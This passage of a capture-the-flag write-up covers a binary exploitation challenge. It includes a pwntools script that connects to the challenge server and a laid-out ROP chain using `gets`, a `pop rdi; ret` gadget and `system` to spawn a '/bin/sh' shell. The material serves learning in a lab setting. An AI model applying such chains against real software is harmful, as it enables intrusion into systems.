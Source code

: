 So, I found out the following:
1. ASLR is enabled
2. The address given by Mage is the address of library function `system` from the shared library`libc.so.6`
3. `fread` only accepts 8 characters, which is equivalent to just 1 return address. That means my exploit code can't work.

I am lost. I don't know what I can do. This challenge is too difficult for me...

##### Giving up

As I always do whenever I have exhausted every means of solving a problem but still cannot solve it, I just try random things that make no sense and hope it works. It fails everytime of course.

This time, I wrote this Python script to feed the address of the library function `system` into the program as input. It serves no purpose other than to illustrate my hopelessness.
```
from pwn import *

p = remote('chal1.swampctf.com', 1999)

p.recvuntil("):")

p.sendline("yes") #reply yes

addr = int(p.recvuntil("]")[-13:-1], 16)

p.recvuntil(":")

log.info("Address of system(): "+hex(addr))

payload = pack(addr, 'all', 'little', True)

log.info("Sending: " + payload)

p.send(payload)

p.interactive()
```


### Correcting my mistakes
Let's begin by comparing my intended payload and fadec0d3's payload.

| my payload        | fadec0d3's payload           |
| ------------- | ------------- |
| `< addr of 'pop rdi; ret' > < addr of the string '/bin//sh' > < addr of __libc_system > < the string '/bin//sh' >` | `<addr of _IO_gets> < addr of 'pop rdi; ret' > < addr of string '/bin/sh' > < addr of __libc_system >` |

Despite being a n00b, I take comfort in the fact that I was partially on the right track. Still, I chide myself for giving up when I should have realised that libc included functions like `gets` that allowed me to bypass `fread`'s 8 character limit.

##### Ingenuity of fadec0d3's payload
fadec0d3's payload is a ROP chain consisting of 3 ROP gadgets.
1. `_IO_gets`
2. `pop rdi; ret;`
3. `system`
